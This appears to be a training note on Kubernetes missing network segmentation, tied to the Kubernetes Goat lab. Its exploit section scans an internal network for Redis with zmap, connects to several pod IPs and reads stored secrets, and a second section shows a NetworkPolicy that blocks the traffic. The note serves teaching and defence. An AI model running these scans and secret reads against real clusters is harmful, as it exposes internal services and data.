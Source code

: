 # K07:  Missing Network Segmentation Controls

## Kubernetes namespaces bypass

Most people assume that resources in Kubernetes namespaces are secure and not able to access each other. Wrong! 

By default, Kubernetes comes with flat networking schema and if we need to have segmentation then we have to create them by creating boundaries like Network Security Policies. This vournability could lead to critical resources being exposed internally. 

## Exploit

In this scenario, you will access resource in other namespaces.

```shell
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
kubectl exec -it hacker-container -- sh

# Get IPs for this port
rm /etc/zmap/zmap.conf
zmap -p 6379 10.0.0.0/8 -o results.csv
cat results.csv | sort

# Connect to Redis DB
redis-cli -h 10.150.2.27
redis-cli -h 10.244.120.82
redis-cli -h 10.98.255.188

# Get secret
IP:6379>keys *
IP:6379>GET SECRETSTUFF
```

## Secure Network Boundaries using NSP

```shell
minikube start --cni=calico

# Create pod and svc
kubectl run --image=nginx website --labels app=website --expose --port 80

# Call service from different pod on the same network
kubectl run --rm -it --image=alpine temp -- ash
wget -qO- --timeout=1 http://website

# Deny ingress from podSelector
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: website
spec:
  podSelector:
    matchLabels:
      app: website
  ingress: []
EOF

# Test
kubectl run --rm -it --image=alpine temp -- sh
wget -qO- --timeout=1 http://website

# Clean up
kubectl delete pod,service,networkpolicy website
```

# Links

- [Kubernetes namespaces bypass](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-11/kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome)
- [Secure Network Boundaries using NSP](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-20/secure-kubernetes-using-network-security-policy/welcome)